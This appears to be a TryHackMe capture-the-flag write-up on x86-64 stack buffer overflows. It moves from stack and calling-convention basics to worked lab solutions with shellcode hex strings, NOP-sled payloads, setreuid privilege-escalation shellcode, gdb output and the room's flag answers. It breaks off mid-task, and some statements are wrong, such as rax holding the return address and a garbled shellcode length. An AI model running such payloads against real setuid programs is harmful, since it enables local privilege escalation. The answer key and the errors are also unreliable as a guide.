



# Buffer Overflows

Learn how to get started with basic Buffer Overflows!

In this room, we aim to explore simple stack buffer overflows(without any mitigation's) on x86-64 linux programs. We will use [radare2](https://github.com/radare/radare2) (r2) to examine the memory layout. You are expected to be familiar with x86 and r2 for this room. Check the [intro to x86-64](https://tryhackme.com/room/introtox8664) room for any pre-requisite knowledge.

We have included a virtual machine with all the resources to ensure you have the correct environment and tools to follow along. To access the machine via SSH, use the following credentials:

* Username: `user1`
* Password: `user1password`

# [Task 2] Process Layout

When a program runs on a machine, the computer runs the program as a process. Current computer architecture allows multiple processes to be run concurrently(at the same time by a computer). While these processes may appear to run at the same time, the computer actually switches between the processes very quickly and makes it look like they are running at the same time. Switching between processes is called a context switch. Since each process may need different information to run(e.g. The current instruction to execute), the operating system has to keep track of all the information in a process. The memory in the process is organised sequentially and has the following layout: 


* User stack contains the information required to run the program. This information would include the current program counter, saved registers and more information(we will go into detail in the next section). The section after the user stack is unused memory and it is used in case the stack grows(downwards)
* Shared library regions are used to either statically/dynamically link libraries that are used by the program
* The heap increases and decreases dynamically depending on whether a program dynamically assigns memory. Notice there is a section that is unassigned above the heap which is used in the event that the size of the heap increases.
* The program code and data stores the program executable and initialised variables.

## #1 - Where is dynamically allocated memory stored?

Answer: `heap`

## #2 - Where is information about functions(e.g. local arguments) stored?

Answer: `stack`

# [Task 3] x86-64 Procedures

~~~
Stack "Bottom" at Higher Memory Address
┌───────────────────┐
│                   │
│                   │
│                   │
│                   │
│                   │
│                   │
│                   │
│                   │
│                   │
│                   │
│                   │
│                   │
└───────────────────┘
Stack "Top" at Lower Memory Address
~~~

A program would usually comprise of multiple functions and there needs to be a way of tracking which function has been called, and which data is passed from one function to another. The stack is a region of contiguous memory addresses and it is used to make it easy to transfer control and data between functions. The top of the stack is at the lowest memory address and the stack grows towards lower memory addresses. The most common operations of the stack are:

* **Pushing**: used to add data onto the stack
* **Popping**: used to remove data from the stack

```asm
push var
```

~~~
Stack Bottom()
┌───────────────────┐
│                   │
│                   │
│                   │
│                   │
└───────────────────┘
Stack Top(memory location 0x8)(rsp point here)
~~~

This is the assembly instruction to push a value onto the stack. It does the following:

* Uses var or value stored in memory location of var
* Decrements the stack pointer(known as `rsp`) by 8
* Writes above value to new location of `rsp`, which is now the top of the stack

~~~
Stack Bottom()
┌───────────────────┐
│                   │
│                   │
│                   │
├───────────────────┤
│ var               │
└───────────────────┘
Stack Top(memory location 0x0)(rsp point here)
~~~

```asm
pop var
```

This is an assembly instruction to read a value and pop it off the stack. It does the following:

~~~
Stack Bottom()
┌───────────────────┐
│                   │
│                   │
│                   │
├───────────────────┤
│ var               │
└───────────────────┘
Stack Top(memory location 0x0)(rsp point here)
~~~

* Reads the value at the address given by the stack pointer
* Increment the stack pointer by 8
* Store the value that was read from rsp into var

~~~
Stack Bottom()
┌───────────────────┐
│                   │
│                   │
│                   │
│                   │
│                   │
└───────────────────┘
Stack Top(memory location 0x8)(rsp point here)
~~~

It’s important to note that the memory does not change when popping values of the stack - it is only the value of the stack pointer that changes! 

Each compiled program may include multiple functions, where each function would need to store local variables, arguments passed to the function and more. To make this easy to manage, each function has its own separate stack frame, where each new stack frame is allocated when a function is called, and deallocated when the function is complete. 

~~~
Stack Bottom()
┌───────────────────┐
│ Stack Frame One   │
├───────────────────┤
│ Stack Frame Two   │
├───────────────────┤
│ Stack Frame Three │
└───────────────────┘
Stack Top(memory location 0x0)(rsp point here)
~~~

This is easily explained using an example. Look at the two functions:

```c
int add(int a, int b){
	int new = a + b;
	return new;
}

int calc(int a, int b){
	int final = add(a, b);
	return final;
}

calc(4, 5)
```

## #1 - what direction does the stack grown(l for lower/h for higher)

Answer: `l`

## #2 - what instruction is used to add data onto the stack?

Answer: `push`

# [Task 4] Procedures Continued

The explanation assumes that the current point of execution is inside the calc function. In this case calc is known as the caller function and add is known as the callee function. The following presents the assembly code inside the calc function



~~~
Stack Bottom
┌───────────────────────────────┐
│ Previous stack frame          │
├───────────────────────────────┤
│ Stack frame for function calc │
└───────────────────────────────┘
Stack Top
~~~

The add function is invoked using the call operand in assembly, in this case callq sym.add. The call operand can either take a label as an argument(e.g. A function name), or it can take a memory address as an offset to the location of the start of the function in the form of call `*value`. Once the add function is invoked(and after it is completed), the program would need to know what point to continue in the program. To do this, the computer pushes the address of the next instruction onto the stack, in this case the address of the instruction on the line that contains movl %eax, local_4h. After this, the program would allocate a stack frame for the new function, change the current instruction pointer to the first instruction in the function, change the stack pointer(rsp) to the top of the stack, and change the frame pointer(rbp) to point to the start of the new frame. 



~~~
Stack Bottom
┌───────────────────────────────┐
│ Previous stack frame          │
├───────────────────────────────┤
│ Stack frame for function calc │
├───────────────────────────────┤
│ Return address (still part of │
│ calc stack frame)             │
├───────────────────────────────┤
│ Stack frame for add           │
└───────────────────────────────┘
Stack Top
~~~

Once the function is finished executing, it will call the return instruction(retq). This instruction will pop the value of the return address of the stack, deallocate the stack frame for the add function, change the instruction pointer to the value of the return address, change the stack pointer(rsp) to the top of the stack and change the frame pointer(rbp) to the stack frame of calc.

~~~
Stack Bottom
┌───────────────────────────────┐
│ Previous stack frame          │
├───────────────────────────────┤
│ Stack frame for calc          │
└───────────────────────────────┘
Stack Top
~~~



Now that we’ve understood how control is transferred through functions, let’s look at how data is transferred. 

In the above example, we save that functions take arguments. The calc function takes 2 arguments(a and b). Upto 6 arguments for functions can be stored in the following registers:

* rdi
* rsi
* rdx
* rcx
* r8
* r9

**Note: rax is a special register that stores the return values of the functions(if any).**

If a function has anymore arguments, these arguments would be stored on the functions stack frame. 

We can now see that a caller function may save values in their registers, but what happens if a callee function also wants to save values in the registers? To ensure the values are not overwritten, the callee values first save the values of the registers on their stack frame, use the registers and then load the values back into the registers. The caller function can also save values on the caller function frame to prevent the values from being overwritten. Here are some rules around which registers are caller and callee saved:

* rax is caller saved
* rdi, rsi, rdx, rcx r8 and r9 are called saved(and they are usually arguments for functions)
* r10, r11 are caller saved
* rbx, r12, r13, r14 are callee saved 
* rbp is also callee saved(and can be optionally used as a frame pointer)
* rsp is callee saved

So far, this is a more thorough example of the run time stack:

~~~
┌───────────────────────────────┐
│                               │
│                               │
│                               │
│                               │
├───────────────────────────────┤
│ Argument n                    │
├───────────────────────────────┤
│                               │
│                               │
├───────────────────────────────┤
│ Argument 7                    │
├───────────────────────────────┤
│ Return address                │
├───────────────────────────────┤
│ Saved registers and local var │
└───────────────────────────────┘
~~~

## #1 - What register stores the return address?

Answer: `rax`

# [Task 5] Endianess

In the above programs, you can see that the binary information is represented in hexadecimal format. Different architectures actually represent the same hexadecimal number in different ways, and this is what is referred to as Endianess. Let’s take the value of 0x12345678 as an example. Here the least significant value is the right most value(78) while the most significant value is the left most value(12).

Little Endian is where the value is arranged from the least significant byte to the most significant byte:

~~~
 LSB                                     MSB
┌────────────┬────────────┬────────────┬────────────┐
│ 78         │ 56         │ 34         │ 12         │
└────────────┴────────────┴────────────┴────────────┘
~~~

Big Endian is where the value is arranged from the most significant byte to the least significant byte.

~~~
 MSB                                     LSB
┌────────────┬────────────┬────────────┬────────────┐
│ 12         │ 34         │ 56         │ 78         │
└────────────┴────────────┴────────────┴────────────┘
~~~

Here, each “value” requires at least a byte to represent, as part of a multi-byte object.

# [Task 6] Overwriting Variables

Now that we’ve looked at all the background information, let’s explore how the overflows actually work. If you take a look at the overflow-1 folder, you’ll notice some C code with a binary program. Your goal is to change the value of the integer variable. 

```c
int main(int argc, char **argv)
{
	volatile int variable = 0;
	char buffer[14];

	gets(buffer);

	if(variable != 0) {
		printf("You have changed the value of the variable\n");
	} else {
		printf("Try again?\n");
	}
}
```

From the C code you can see that the integer variable and character buffer have been allocated next to each other - since memory is allocated in contiguous bytes, you can assume that the integer variable and character buffer are allocated next to each other. 

**Note: this may not always be the case. With how the compiler and stack are configured, when variables are allocated, they would need to be aligned to particular size boundaries(e.g. 8 bytes, 16 byte) to make it easier for memory allocation/deallocation. So if a 12 byte array is allocated where the stack is aligned for 16 bytes this is what the memory would look like:**

~~~
┌────────────────────────────────┬─────────────┐
│ buffer                         │  padding    │
└────────────────────────────────┴─────────────┘
0                                12            16
~~~

the compiler would automatically add 4 bytes to ensure that the size of the variable aligns with the stack size. From the image of the stack above, we can assume that the stack frame for the main function looks like this:

~~~
Stack bottom
┌───────────────────────────────┐
│ Saved registers               │
├───────────────────────────────┤
│ Volatile int variable         │
├───────────────────────────────┤
│ char buffer[13]               │
│ .                             │
│ .                             │
│ .                             │
│ buffer[0]                     │
├───────────────────────────────┤
│ char **argv                   │
├───────────────────────────────┤
│ int argc                      │
└───────────────────────────────┘
Stack top
~~~

even though the stack grows downwards, when data is copied/written into the buffer, it is copied from lower to higher addresess. Depending on how data is entered into the buffer, it means that it's possible to overwrite the integer variable. From the C code, you can see that the gets function is used to enter data into the buffer from standard input. The gets function is dangerous because it doesn't really have a length check - This would mean that you can enter more than 14 bytes of data, which would then overwrite the integer variable. 

Try run the C program in this folder to overwrite the above variable!

## #1 - What is the minimum number of characters needed to overwrite the variable?

Answer: `15`

# [Task 7] Overwriting Function Pointers

For this example, look at the overflow- 2 folder. Inside this folder, you’ll notice the following C code.

```c
void special()
{
	printf("this is the special function\n");
	printf("you did this, friend!\n");
}

void normal()
{
	printf("this is the normal function\n");
}

void other()
{
	printf("why is this here?");
}

int main(int argc, char **argv)
{
	volatile int (*new_ptr) () = normal;
	char buffer[14];
	gets(buffer);
	new_ptr();
}
```

Similar to the example above, data is read into a buffer using the gets function, but the variable above the buffer is not a pointer to a function. A pointer, like its name implies, is used to point to a memory location, and in this case the memory location is that of the normal function. The stack is laid out similar to the example above, but this time you have to find a way of invoking the special function(maybe using the memory address of the function). Try invoke the special function in the program. 

Keep in mind that the architecture of this machine is little endian!

## #1 - Invoke the special function()

*Hint: check the memory address of the function!*

# [Task 8] Buffer Overflows

For this example, look at overflow-3 folder. Inside this folder, you’ll find the following C code.

```c
#include <stdio.h>
#include <stdlib.h>

void copy_arg(char *string)
{
    char buffer[140];
    strcpy(buffer, string);
    printf("%s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    printf("Here's a program that echo's out your input\n");
    copy_arg(argv[1]);
}
```

This example will cover some of the more interesting, and useful things you can do with a buffer overflow. In the previous examples, we’ve seen that when a program takes users controlled input, it may not check the length, and thus a malicious user could overwrite values and actually change variables.

In this example, in the copy_arg function we can see that the strcpy function is copying input from a string(which is argv[1] which is a command line argument) to a buffer of length 140 bytes. With the nature of strcpy, it does not check the length of the data being input so here it’s also possible to overflow the buffer - we can do something more malicious here. 

Let’s take a look at what the stack will look like for the copy_arg function(this stack excludes the stack frame for the strcpy function):

~~~
Stack bottom
┌───────────────────────────────┐
│ Return address                │
├───────────────────────────────┤
│ Saved registers               │
├───────────────────────────────┤
│ char buffer[140]              │
│ .                             │
│ .                             │
│ .                             │
│ buffer[0]                     │
└───────────────────────────────┘
Stack top
~~~

Earlier, we saw that when a function(in this case main) calls another function(in this case copy_args), it needs to add the return address on the stack so the callee function(copy_args) knows where to transfer control to once it has finished executing. From the stack above, we know that data will be copied upwards from buffer[0] to buffer[140]. Since we can overflow the buffer, it also follows that we can overflow the return address with our own value. **We can control where the function returns and change the flow of execution of a program(very cool, right?)**

Know that we know we can control the flow of execution by directing the return address to some memory address, how do we actually do something useful with this. This is where shellcode comes in; shell code quite literally is code that will open up a shell. More specifically, it is binary instructions that can be executed. Since shellcode is just machine code(in the form of binary instructions), you can usually start of by writing a C program to do what you want, compile it into assembly and extract the hex characters(alternatively it would involve writing your own assembly). For now we’ll use this shellcode that opens up a basic shell:

```bash
\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05
```

So why don’t we looking at actually executing this shellcode. The basic idea is that we need to point the overwritten return address to the shellcode, but where do we actually store the shellcode and what actual address do we point it at? Why don’t we store the shellcode in the buffer - because we know the address at the beginning of the buffer, we can just overwrite the return address to point to the start of the buffer. Here’s the general process so far:

* Find out the address of the start of the buffer and the start address of the return address
* Calculate the difference between these addresses so you know how much data to enter to overflow
* Start out by entering the shellcode in the buffer, entering random data between the shellcode and the return address, and the address of the buffer in the return address

~~~
Stack bottom
┌────────────────────────────────┐
│ Address of buffer (overwritten │
│ old return  address)           │
├────────────────────────────────┤
│ Random data (overwritten saved │
│ registers                      │
├────────────────────────────────┤
│ Random data (inside buffer)    │
├────────────────────────────────┤
│ shellcode (inside buffer)      │
└────────────────────────────────┘
Stack top
~~~

In theory, this looks like it would work quite well. However, memory addresses may not be the same on different systems, even across the same computer when the program is recompiled. So we can make this more flexible using a NOP instruction. A NOP instruction is a no operation instruction - when the system processes this instruction, it does nothing, and carries on execution. A NOP instruction is represented using \x90. Putting NOPs as part of the payload means an attacker can jump anywhere in the memory region that includes a NOP and eventually reach the intended instructions. This is what an injection vector would look like:

~~~
┌─────────────────┬──────────────────┬──────────────────┐
│ NOP sled        │  shell code      │ Memory address   │
└─────────────────┴──────────────────┴──────────────────┘
~~~

You’ve probably noticed that shellcode, memory addresses and NOP sleds are usually in hex code. To make it easy to pass the payload to an input program, you can use python:

```bash
python -c “print (NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory address)”
```

Using this format would be something like this for this challenge:

```bash
python -c "print('\x90' * 30 + '\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05' +
'\x41' * 60 + 
'\xef\xbe\xad\xde') | ./program_name
"
```

In some cases you may need to pass xargs before ./program_name.

## #1 - Use the above method to open a shell and read the contents of the secret.txt file.

**offset**

~~~
[user1@ip-10-10-93-165 overflow-3]$ gdb -q buffer-overflow
(gdb) run $(python -c "print('A'*158)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A'*158)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()
(gdb) run $(python -c "print('A'*159)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('A'*159)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400563 in copy_arg ()
(gdb) 
~~~

With a 158 bytes length payload, we are overwritting 6 bytes of the return address. As a result, the offset will be **152 bytes**.

**shellcode**

After many attempts, all failing with an "Illegal instruction" error, I found a shellcode (40 bytes) that works here: https://www.arsouyes.org/blog/2019/54_Shellcode/

```python
>>> shellcode = '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'
>>> len(shellcode)
40
```

**Return address**

The last item we need to complete our payload is the return address of the shell code (6 bytes). Our payload will be like this:

~~~
┌───────────────────┬────────────────────┬────────────────────┬────────────────────┐
│ NOP sled (90)     │  shell code (40)   │  random chars (22) │ Memory address (6) │
└───────────────────┴────────────────────┴────────────────────┴────────────────────┘
total length = 90 + 40 + 22 + 6 = 158
~~~

```python
>>> payload = '\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + 'B'*6
>>> len(payload)
158
```

Let's try that:

~~~
(gdb) run $(python -c "print('\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + 'B'*6)")
Starting program: /home/user1/overflow-3/buffer-overflow $(python -c "print('\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + 'B'*6)")
Missing separate debuginfos, use: debuginfo-install glibc-2.26-32.amzn2.0.1.x86_64
Here's a program that echo's out your input
������������������������������������������������������������������������������������������j;XH1�I�//bin/shI�APH��RWH��j<XH1�����������������������BBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x0000424242424242 in ?? ()
~~~

See where NOP sled string is located, and beginning of shellcode.

~~~
(gdb) x/100x $rsp-200
0x7fffffffe218:	0x00400450	0x00000000	0xffffe3d0	0x00007fff
0x7fffffffe228:	0x00400561	0x00000000	0xf7dce8c0	0x00007fff
0x7fffffffe238:	0xffffe639	0x00007fff	0x90909090	0x90909090 <--- NOP sled
0x7fffffffe248:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe258:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe268:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe278:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe288:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe298:	0x3b6a9090	0xd2314858	0x2f2fb849	0x2f6e6962 <--- shellcode
0x7fffffffe2a8:	0xc1496873	0x504108e8	0x52e78948	0xe6894857
0x7fffffffe2b8:	0x3c6a050f	0xff314858	0x9090050f	0x90909090
0x7fffffffe2c8:	0x90909090	0x90909090	0x90909090	0x90909090
0x7fffffffe2d8:	0x42424242	0x00004242	0xffffe3d8	0x00007fff
0x7fffffffe2e8:	0x00000000	0x00000002	0x004005a0	0x00000000
0x7fffffffe2f8:	0xf7a4302a	0x00007fff	0x00000000	0x00000000
0x7fffffffe308:	0xffffe3d8	0x00007fff	0x00040000	0x00000002
0x7fffffffe318:	0x00400564	0x00000000	0x00000000	0x00000000
0x7fffffffe328:	0xc7dc72b8	0x7f14507a	0x00400450	0x00000000
0x7fffffffe338:	0xffffe3d0	0x00007fff	0x00000000	0x00000000
0x7fffffffe348:	0x00000000	0x00000000	0x0a9c72b8	0x80ebaf05
0x7fffffffe358:	0x935872b8	0x80ebbfb2	0x00000000	0x00000000
0x7fffffffe368:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe378:	0xffffe3f0	0x00007fff	0xf7ffe130	0x00007fff
0x7fffffffe388:	0xf7de7656	0x00007fff	0x00000000	0x00000000
0x7fffffffe398:	0x00000000	0x00000000	0x00000000	0x00000000
~~~

Let's take any address between the NOP sled and the shellcode (e.g. `0x7fffffffe288`). Here is the final payload:

~~~
$ ./buffer-overflow $(python -c "print('\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + '\x88\xe2\xff\xff\xff\x7f')")
~~~

When executed, the programs eventually spawns a shell.

~~~
[user1@ip-10-10-12-188 overflow-3]$ ./buffer-overflow $(python -c "print('\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + '\x88\xe2\xff\xff\xff\x7f')")
Here's a program that echo's out your input
������������������������������������������������������������������������������������������j;XH1�I�//bin/shI�APH��RWH��j<XH1����������������������������
sh-4.2$ whoami
user1
sh-4.2$ cat secret.txt 
cat: secret.txt: Permission denied
sh-4.2$ 
~~~

As you can see above, we are not allowed to access the secret though, because we are not user2.

**setreuid**

Let's use pwntools to generate a prefix to our shellcode to run SETREUID:

~~~
$ pwn shellcraft -f d amd64.linux.setreuid 1002
\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
$ python
>>> len('\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05')
14
~~~

Our payload now looks like this:

~~~
┌───────────────────┬────────────────────┬────────────────────┬────────────────────┬────────────────────┐
│ NOP sled (90)     │  setreuid (14)     │ shellcode (40)     │ random chars (8)   │ Memory address (6) │
└───────────────────┴────────────────────┴────────────────────┴────────────────────┴────────────────────┘
total length = 90 + 14 + 40 + 8 + 6 = 158
~~~

Let's test:

```
[user1@ip-10-10-12-188 overflow-3]$ ./buffer-overflow $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*8 + '\x88\xe2\xff\xff\xff\x7f')")
Here's a program that echo's out your input
������������������������������������������������������������������������������������������1�f��jqXH��j;XH1�I�//bin/shI�APH��RWH��j<XH1��������������
sh-4.2$ whoami
user2
sh-4.2$ cat secret.txt 
omgyoudidthissocool!!
sh-4.2$ 
```

Answer: `omgyoudidthissocool!!`

# [Task 9] Buffer Overflow 2

Look at the overflow-4 folder. Try to use your newly learnt buffer overflow techniques for this binary file.

## #1 - Use the same method to read the contents of the secret file!

**Code**

Below is the code for `buffer-overflow-2.c`:

```c
#include <stdio.h>
#include <stdlib.h>

void concat_arg(char *string)
{
    char buffer[154] = "doggo";
    strcat(buffer, string);
    printf("new word is %s\n", buffer);
    return 0;
}

int main(int argc, char **argv)
{
    concat_arg(argv[1]);
}
```

Run:

```
[user1@ip-10-10-12-188 overflow-4]$ ./buffer-overflow-2 OOPS
new word is doggoOOPS
```

**offset**

The buffer is 154 bytes, but the string `doggo` (5 characters) is added. So we should begin to test from 154-5. Let's start with 8 more bytes:

~~~
(gdb) run $(python -c "print('A'*(154-5+8))")
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print('A'*(154-5+8))")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x00000000004005d3 in main ()
~~~

Not enough to overwrite the return address. Let's add 8 more bytes:

~~~
(gdb) run $(python -c "print('A'*(154-5+8*2))")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print('A'*(154-5+8*2))")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000004141 in ?? ()
~~~

Good, we start seing 2 times 'A' overwritting the return address. We need 6 in total, so we need 4 more:

~~~
(gdb) run $(python -c "print('A'*(154-5+8*2+4))")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print('A'*(154-5+8*2+4))")
new word is doggoAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()
~~~

The offset is 169 (`154-5+8*2+4`).

**Shellcode**

We'll use the same shellcode (158 bytes) as previously, with the SETREUID. This time, we need to target user3 (ID is 1003), to be able to read `secret.txt`:

```bash
[user1@ip-10-10-189-18 overflow-4]$ ll
total 20
-rwsr-xr-x 1 user3 user3 8272 Sep  3  2019 buffer-overflow-2
-rw-rw-r-- 1 user1 user1  250 Sep  3  2019 buffer-overflow-2.c
-rw------- 1 user3 user3   17 Sep  2  2019 secret.txt
[user1@ip-10-10-189-18 overflow-4]$ grep user3 /etc/passwd
user3:x:1003:1003::/home/user3:/bin/bash
```

Let's generate the prefix for our shellcode:
~~~
$ pwn shellcraft -f d amd64.linux.setreuid 1003
\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
$ python
>>> len('\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05')
14
~~~


```python
>>> shellcode = '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05' + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05'
>>> len(shellcode)
40
```

**Return address**

Now, let's have a look at our payload. It should look like this:

~~~
┌───────────────────┬────────────────────┬────────────────────┬────────────────────┐
│ NOP sled (90)     │ shellcode (54)     │ random chars (19)  │ Memory address (6) │
└───────────────────┴────────────────────┴────────────────────┴────────────────────┘
total length = 90 + 54 + 19 + 6 = 169
~~~

```python
>>> payload = 'A'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6
>>> len(payload)
169
```

Let's debug:

~~~
$ gdb -q buffer-overflow-2
Reading symbols from buffer-overflow-2...(no debugging symbols found)...done.
(gdb) run $(python -c "print('A'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6)")
